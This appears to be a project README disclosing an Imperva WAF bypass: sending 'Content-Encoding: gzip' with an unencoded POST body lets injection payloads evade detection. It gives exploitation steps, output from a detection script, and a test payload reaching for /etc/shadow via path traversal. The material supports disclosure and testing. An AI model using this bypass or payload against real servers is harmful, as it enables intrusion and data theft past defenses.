 # Imperva WAF POST Request Bypass 
Imperva-protected HTTP(S) servers are vulnerable to a trivial bypass that allows malicious POST payloads, such as unobfuscated SQL injection, to evade detection. 

## To Exploit it
Add the header `Content-Encoding: gzip` to your POST requests. Leave your POST data as-is. Don't encode it! That's it - you can put literally anything for the content encoding so long as the first four characters are `gzip`. Imperva just passes it through.

You can do this in Burp by using the proxy's Match & Replace feature:

![](https://i.imgur.com/bNPA1MW.png)

Add a new header like this:

![](https://i.imgur.com/fJtQ8A1.png)

That's it, you're good to go.

# Running the test script
Run `imperva_gzip.py` against a URL that supports POST requests like this:

Syntax:
	`./imperva_gzip.py [[-t] | [-r]] URL`

Guess the WAF type for a given URL:
```
$ ./imperva_gzip.py -t https://www.vulnerable.com/search
Imperva Incapsula
$ ./imperva_gzip.py -t https://www.wordpress-user.com/login
WordFence
$ ./imperva_gzip.py -t https://www.cloudflare-customer.com
Cloudflare
```

Check to see if the WAF is vulnerable to the gzip bypass:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[+] Checking for Imperva WAF...
[+] Attempting gzip bypass for UNIX trigger...
[+] Vulnerable! HTTP response code: 200
[+] Attempting gzip bypass for Windows trigger...
[+] Vulnerable! HTTP response code: 200
```

If you get this error:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[!] Can't POST to https://www.vulnerable.com/search. Try -r if 30x redirects are allowed. HTTP response code: 302
```

then try passing `-r` on the command line to enable relaxed mode. By default relaxed mode is off, which means a POST request is expected to elicit an HTTP 200 response from the server. `-r` expands the acceptable responses to HTTP 2xx, 3xx.

## Scripting
The exit codes for `imperva_gzip.py` are as follows:

```
0: Returned after getting WAF type.
1: Command-line was invalid.
2: There was an error connecting. Could be DNS error, timeout, etc.
3: No WAF was detected; malicious UNIX/Windows payloads weren't blocked.
4: A WAF was detected, but it wasn't Imperva.
5: The server responded to a test POST request with something other than HTTP 200.
128: There is an Imperva WAF, but it is not vulnerable to the gzip bypass.
129: The bypass was effective for the UNIX payload, but not the Windows one.
130: The bypass was effective for the Windows payload, but not the UNIX one.
131: The bypass was effective against both Windows and UNIX payloads.
```

## Process to Manually Test for Vulnerability
Send three POST requests:

1. Establish a baseline POST request/response with a valid but harmless POST request.
2. Trigger the Imperva WAF using the same POST request, but with extra “malicious” data such as `&test=../../../../../../../etc/shadow` in the body to verify that Imperva blocks it.
3. Add the header `Content-Encoding: gzip` to the same malicious request and verify that Imperva doesn't block it.

## Other Encodings
According to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Encoding there are four valid values for the `Content-Encoding` header:

* `compress`
* `deflate`
* `gzip`
* `br`

In testing, only `gzip` appears to work as a bypass. I wonder if gzip is whitelisted for performance reasons?

## Affected versions
I don't know. Version information isn't obvious with Imperva's WAF. What we do know is that this bug has previously been identified in a separate Imperva product called SecureSphere. The [release notes for v12.6 of SecureSphere](https://docs.imperva.com/bundle/v12.6-release-notes/page/64973.htm) contain this paragraph:

> SPHR-58185: When SecureSphere failed to decompress POST body in requests with "Content-Encoding: gzip/deflate" header, it issued no alert and let the request through.

This sounds like exactly the same bug! The issue was resolved for SecureSphere in Feb 2021, but we don't know when it was introduced. It's possible that the vulnerability has been there for years. Moreover, the same bug in two products from the same company implies a common codebase between WAF and SecureSphere. It's likely that there are other common security bugs in the two products. 

## Config issue or legit bug?
I did some research to see if there are any gzip configuration options in Imperva WAFs, but I couldn't find anything. Add to that the commonality of the bug between products and my best guess is that this is a bug, not a feature or a configuration issue.

## Mitigating
Put a WAF on your WAF?
